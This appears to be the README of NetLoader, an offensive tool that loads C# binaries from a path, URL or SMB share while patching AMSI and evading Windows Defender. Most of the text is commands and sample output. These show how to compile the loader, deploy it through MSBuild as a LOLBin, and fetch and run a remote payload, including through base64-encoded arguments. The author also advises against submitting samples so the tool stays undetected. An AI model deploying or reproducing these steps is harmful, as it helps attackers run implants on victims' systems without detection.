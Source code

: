 # NetLoader
Loads any C# binary from filepath or url, patching AMSI and bypassing Windows Defender on runtime

Latest update / signature fix was 09.06.2020, clean as a whistle
I am doing 24/7 signature checks and pushing updates when possible so I can keep NetLoader undetected (mainly for my own educational purposes)
**Please do not upload to VirusTotal and DISABLE "Sample Submission" when testing / possible**

**Looking for binaries/payloads to deploy? Checkout [SharpCollection](https://github.com/Flangvik/SharpCollection)**! SharpCollection contains nightly builds of C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines.

# Compile

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Deploy via LOLBin (MSBuild)

Payload for MSBuild is in the /LOLBins folder, might push this for varius other LOLBins aswell.
NetLoader has to be used in interactive mode when deployed using MSBuild

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml
	
	Example:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml
	Microsoft (R) Build Engine version 4.7.3190.0
	[Microsoft .NET Framework, version 4.0.30319.42000]
	Copyright (C) Microsoft Corporation. All rights reserved.

	Build started 6/9/2020 10:54:26 PM.
	[!] ~Flangvik  #NetLoader
	[?] Input X in 'path or url' to exit!
	[?] Input path or url ->
	https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[?] Input args (optional) ->
	whoami
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking

# Usage
Deploy payload from remote URI with args, non-interactive mode

	PS D:\NetLoader> .\NetLoader.exe https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin whoami
	[!] ~Flangvik  #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>

Deploy payload from remote URI with args, interactive mode

	PS D:\NetLoader> .\NetLoader.exe
	[!] ~Flangvik  #NetLoader
	[?] Input X in 'path or url' to exit!
	[?] Input path or url ->
	https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[?] Input args (optional) ->
	whoami
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>

Deploy payload from local path or SMB share (note that NetLoader automatically detects whether the path provided is local or remote), non-interactive

	.\NetLoader.exe D:\Tools\Stracciatella.bin whoami
	[!] ~Flangvik  #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : D:\Tools\Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>


Supports base64 inputs for those long strings that would usually break stuff! (non-interactive)

	PS D:\NetLoader> .\NetLoader.exe --b64 aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL05ldExvYWRlci9yYXcvbWFzdGVyL0JpbmFyaWVzL1N0cmFjY2lhdGVsbGEuYmlu d2hvYW1p
	[!] ~Flangvik  #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>


# Todo
- [X]  Automate the build and release of many of the Sharp Tools so they automagically appear in ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [X]  Update with credits and links to the github repos that ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) are compiled from

# Credits
[_RastaMouse](https://twitter.com/_RastaMouse/) for the [AMSI bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs)

